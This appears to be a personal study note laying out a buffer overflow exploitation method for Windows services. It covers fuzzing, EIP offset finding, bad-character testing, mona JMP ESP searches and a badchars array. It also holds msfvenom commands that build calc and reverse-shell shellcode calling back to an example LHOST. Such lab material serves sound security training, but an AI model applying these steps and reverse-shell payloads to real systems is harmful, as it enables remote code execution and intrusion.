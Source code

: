 # General buffer overflow methodology


## High-level
1. crash (FUZZ/SPIKE)
1. replicate crash
1. Find/Controlling `#!asm EIP` exact byte
1. Make sure space for shellcode is enough
1. Find Bad Characters
1. Find `#!asm JMP` function
1. Make shellcode * pop calc
1. Make shellcode * reverse_shell
1. Try to exit payload gracefully

## Detailed Instructions

 * Load service in Immunity Debugger
 * Fuzz using [Fuzzing_Script.py](./Fuzzing_Scripts/Simple_Fuzz.html)
 * Replicate Crash using [BOF_Skeleton.py](./Skeleton.html)
 * Find bytes by sending unique string
	* 
		```bash
		/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <number_of_buffer>
		```
	* Plugin it into[BOF_Skeleton.py](./Skeleton.html)
		* Swap "A"s with pattern_create output
    * `#!python !mona findmsp`
    * or
 	* 
 		```bash
 		/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <number_of_buffer> -q <value_in_register>
 		```
 * Modify [BOF_Skeleton.py](./Skeleton.html) to `#!python "A"*<result_from_pattern_offset.rb> + "B"*4 + "C"*<value of As and Bs * original buffer used for crashing the application>`
    * i.e. `#!python buffer = 'A'*2606+'B'*4+'C'*(3100-2606-4)`
 * Find where to put shellcode and redirect/replace value of the `#!asm EIP` register (Bs or `42424242`)
	* Usually where the Cs are (`#!asm ESP`? `#!asm EAX`?) or probably the As?
		* Find out if the As or Cs or the suitable location of payload is 350 bytes to 400 bytes in size (average size of shellcode)
			* If not try to increase [BOF_Skeleton.py](./Skeleton.html) buffer size (Replicate Crashing using [BOF_Skeleton.py](./Skeleton.html) above)
				* `#!python "C"*(NEW_SIZE * <EXISTING FORMULA>)`
					* i.e. `#!python "C"*2700-2606-4`
					* i.e. `#!python "C"*3500-2606-4`
					* i.e. `#!python "C"*4000-2606-4`
				* *Note: This does not always work, try to point to the As such as via EAX or other registers by making shellcode on the C section to `#!asm JMP` to `#!asm EAX` or do it straight from `#!asm EIP` (`#!asm JMP EAX`) or `#!asm JMP ESP` if it is to be placed there*
                    * *Do this NASM shell after you found the Bad Characters below since it would be a criteria in choosing base addresses without the bad chars*				
					* i.e.
						```bash
						ruby /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
						```
						* `#!asm add eax,12`
						* `#!asm jmp eax`
 * Find Bad Characters
	* Usually NULL Bytes character `#!asm \x00`
		* For Mail Servers and others, the Carriage Return `#!asm \x0d`
	* Add long string of all hex character combinations
		* `#!python "A"*<result_from_pattern_offset.rb> + "B"*4 + badchars`
         ```python
         # all 255 bytes
         badchars = ( 
         "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
         "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
         "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
         "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
         "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
         "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
         "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
         "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
         "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
         "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
         "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
         "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
         "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
         "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
         "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
         "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
         ```

	* Look at what hex values disappear at the C section/badchars section and repeat till every badchar is knocked out of the list
	    * take note of the bad chars

 * Due to ASLR and random address for threaded stack based programs, find natural occurring jumps to be consistent `#!asm JMP <REGISTER_where_payload_is_observed_to_start>`
	* i.e. `#!asm JMP ESP` or `#!asm JMP EAX` depending of where the payload would start
     * `#!python !mona modules`
        * Look at "Log data" window
	    * Criteria to choose instruction (DLL)
		    * ASLR = False
		    * DEP  = False
		    * Rebase = False
		    * Memory range (Base) of the module (DLL) itself does not contain the bad characters (First four(4) bytes should not have bad chars)
		        * i.e. `#!asm 0x10000000` and `#!asm 0x00400000` has bad chars 
		        * i.e. `#!asm 0x5f400000` has no bad chars
	    * Find a naturally occurring JMP at the chosen module (DLL) (modules tab, Go to executable tab ("e") click on the module/property/dll, it will redirect to you the CPU register window the ++++ctrl+f++++ to find the instruction `#!asm JMP ###`)
	        * `#!python !mona jmp -r esp -m '<module_chosen>'`
	            * i.e. `#!python !mona jmp -r esp -m 'essfunc.dll'`
		    * find (++ctrl+f++)
			    * `#!asm JMP ESP`
			    * (or)
			    * (Sequence) (right click, Search for, sequence of commands)
				    * `#!asm push esp`
				    * `#!asm retn`
		    * if instructions does not exist go to "m" tab since the initial search (++ctrl+f++) only looks at the executable  tagged ("E")  areas/files only
			    * if module chosen earlier does not have DEP or ASLR then use any Readable "R" file and find the naturally occurring `#!asm JMPs` there
				    * find op code of `#!asm JMP ESP`
					    * ruby /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
						    * `#!asm jmp esp`
							     * i.e. `#!asm jmp esp == FFE4`
					    * `#!python !mona find -s "\xff\xe4" -m <target_module>`
						    * i.e. `#!python !mona find -s "\xff\xe4" -m slmfc.dll`
						    * choose address that does not contain any bad characters
				    * Go to address and verify `#!asm JMP <REGISTER>` code
				    * copy the address and replace the "B"s in [BOF_Skeleton.py](./Skeleton.html)
					    * remember to write address in reverse because x86 arch stores address in memory using little endian format
				    * test the code and place a breakpoint ++f2++ on the `#!asm JMP <REGISTER>` address just to see if on the actual BOF, it places the right address in the right order in `#!asm EIP`
				
 * Pop calc!
    * calc.exe:
    	```bash
    	msfvenom -p windows/exec EXITFUNC=thread CMD=calc.exe -f python -a x86 --platform windows -b "\x00" -e x86/shikata_ga_nai -v shellcode_calc
    	```
    
 * 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<lhost> EXITFUNC=<process/thread/seh> LPORT=<lport> -f <language> -a <arch> --platform <platform> -b "<bad chars>" -e <encoder> -v shellcode_rev
```

	* i.e. 
		```bash
		msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=7777 EXITFUNC=thread -f python -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -v shellcode_rev
		```
	* Troubleshooting calc.exe:
		```bash
		msfvenom -p windows/exec EXITFUNC=thread CMD=calc.exe -f python -v shellcode_calc -a x86 --platform windows -b "\x00" -e x86/shikata_ga_nai
		```
	* other payload = 
	* copy shellcode to [BOF_Skeleton.py](./Skeleton.html)
	* Adjust buffer length
		* i.e. `#!python "A"*2606 + "\x8f\x35\x4a\x5f" + shellcode + "C"*(3500-2606-4-351)`
	* Decoder Stub avoidance:
	    * EASY MODE: Add NOPs `#!asm \x90` to stack space for shellcode to work with * ~16 NOPs enough
	    * PRO MODE: Use `#!asm sub esp,0x10` `#!asm \x83\xec\x10` or `#!asm sub eax,0x10` `#!asm \x83\xe8\x10` instead, saves precious buffer space
	    * Use ruby nasm to know opcode value
	* EXITFUNC = thread for threaded applications, process and seh for IDK?
	* Adjust buffer length again to accommodate NOPs
		* i.e. `#!python "A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 16 + shellcode + "C"*(3500-2606-4-351-16)`
	* Other shellcodes [Shell-storm](http://shell-storm.org/shellcode/)




## Shortcuts

* ++f2++ : Place breakpoint
* ++f7++ : play (each instruction/execution flow)
* ++ctrl+f7++ : Autoplay slowly
* ++f9++ : play till crash or forever


## Observations

* Try different `#!asm JMP ESP `address = Works
* Try without shikata_ga_nai = will not avoid bad chars without encoding
* Try without NOPs sled  = It does overwrite itself indeed
* Try NOPs sled only 8 as per guide = works, it turns out it is fine to overwrite the first 8 bytes of shellcode/encoder 
